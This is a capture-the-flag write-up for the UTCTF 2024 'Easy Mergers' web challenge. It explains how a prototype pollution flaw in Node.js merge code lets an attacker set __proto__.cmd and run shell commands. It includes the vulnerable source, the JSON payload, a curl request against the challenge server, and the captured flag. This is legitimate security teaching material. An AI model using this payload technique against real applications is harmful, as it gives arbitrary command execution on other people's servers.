 ```yaml
---
title: "Easy Mergers v0.1"
description: "Tired of getting your corporate mergers blocked by the FTC"
points: 787
solves: 143
date: April 1 2024
author: Jozef Steinhübl 
---
```


![easy mergers](https://raw.githubusercontent.com/GerlachSnezka/utctf/main/assets/2024-web-easymergers.png)

For this assignment, we had the page and code for this site. On the site, we can add fields and then create a company or edit it (absorb it).

![easy mergers web](https://raw.githubusercontent.com/GerlachSnezka/utctf/main/assets/2024-web-easymergers-web.png)

We'll open dev tools to see what the requests look like. We notice a very interesting thing, namely that with `absorbCompany` the request returns a JSON containing `stderr` with the message `/bin/sh: 1: ./merger.sh: Permission denied\n`. This means that the script `merger.sh` is executed on the server.

![easy mergers weird behaviour](https://raw.githubusercontent.com/GerlachSnezka/utctf/main/assets/2024-web-easymergers-weird-behaviour.png)

Thanks to the fact that we have the source code, we can take a closer look at what's going on:
```js
function isObject(obj) {
    return typeof obj === 'function' || typeof obj === 'object';
}

var secret = {}

const { exec } = require('child_process');

process.on('message', function (m) {
    let data = m.data;
    let orig = m.orig;
    for (let k = 0; k < Math.min(data.attributes.length, data.values.length); k++) {
        if (!(orig[data.attributes[k]] === undefined) && isObject(orig[data.attributes[k]]) && isObject(data.values[k])) {
            for (const key in data.values[k]) {
                orig[data.attributes[k]][key] = data.values[k][key];
            }
        } else if (!(orig[data.attributes[k]] === undefined) && Array.isArray(orig[data.attributes[k]]) && Array.isArray(data.values[k])) {
            orig[data.attributes[k]] = orig[data.attributes[k]].concat(data.values[k]);
        } else {
            orig[data.attributes[k]] = data.values[k];
        }
    }
    cmd = "./merger.sh";

    if (secret.cmd != null) {
        cmd = secret.cmd;
    }

    var test = exec(cmd, (err, stdout, stderr) => {
        retObj = {};
        retObj['merged'] = orig;
        retObj['err'] = err;
        retObj['stdout'] = stdout;
        retObj['stderr'] = stderr;
        process.send(retObj);
    });
    console.log(test);
});
```

Looking at it for the first time, we might not say there would be a bug since there is no way to replace `cmd`. However.... this is not true because of JS. In JS there is something called prototype pollution attack. For example, you can find more [here](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)

So we can exploit this attack and send a POST request with this body:
```json
{
  "attributes": ["__proto__"],
  "values": [{ "cmd": "cat flag.txt" }]
}
```

The `flag.txt` probably exists, since it is also in our codebase.

```sh
#!/bin/bash

curl 'http://guppy.utctf.live:8725/api/absorbCompany/0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,en;q=0.9,sk-SK;q=0.8,sk;q=0.7,en-US;q=0.6' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: connect.sid=YOURSID' \
  -H 'Origin: http://guppy.utctf.live:8725' \
  -H 'Referer: http://guppy.utctf.live:8725/' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36' \
  --data-raw '{"attributes":["__proto__"],"values":[{"cmd": "cat flag.txt"}]}' \
  --insecure
```

And we get the flag in the stdout field:
```
utflag{p0lluted_b4ckdoorz_and_m0r3}
```